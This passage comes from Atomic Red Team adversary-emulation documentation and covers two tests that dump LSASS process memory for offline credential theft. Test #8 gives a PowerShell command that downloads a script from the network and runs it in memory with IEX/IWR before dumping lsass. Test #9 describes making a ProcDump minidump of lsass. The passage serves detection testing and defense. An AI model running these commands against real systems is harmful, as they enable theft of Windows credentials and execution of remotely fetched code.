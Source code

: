 ## Atomic Test #8 - Dump LSASS.exe Memory using Out-Minidump.ps1

The memory of lsass.exe is often dumped for offline credential theft attacks. This test leverages a pure
powershell implementation that leverages the MiniDumpWriteDump Win32 API call.
Upon successful execution, you should see the following file created $env:TEMP\lsass\_\*.dmp.

Author of Out-Minidump: Matthew Graeber (@mattifestation)

**Supported Platforms:** Windows

**auto_generated_guid:** 6502c8f0-b775-4dbd-9193-1298f56b6781

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
try{ IEX (IWR 'https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1') -ErrorAction Stop}
catch{ $_; exit $_.Exception.Response.StatusCode.Value__}
get-process lsass | Out-Minidump
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #9 - Create Mini Dump of LSASS.exe using ProcDump

The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with Sysinternals
ProcDump. This particular method uses -mm to produce a mini dump of lsass.exe

Upon successful execution, you should see the following file created c:\windows\temp\lsass_dump.dmp.

If you see a message saying "procdump.exe is not recognized as an internal or external command", try using the get-prereq_commands to download and install the ProcDump tool first.

**Supported Platforms:** Windows

**auto_generated_guid:** 7cede33f-0acd-44ef-9774-15511300b24b

#### Inputs:

| Name         | Description                                | Type | Default Value                                                    |
| ------------ | ------------------------------------------ | ---- | ---------------------------------------------------------------- |
| output_file  | Path where resulting dump should be placed | path | C:&#92;Windows&#92;Temp&#92;lsass_dump.dmp                       |
| procdump_exe | Path of Procdump executable                | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;procdump.exe |

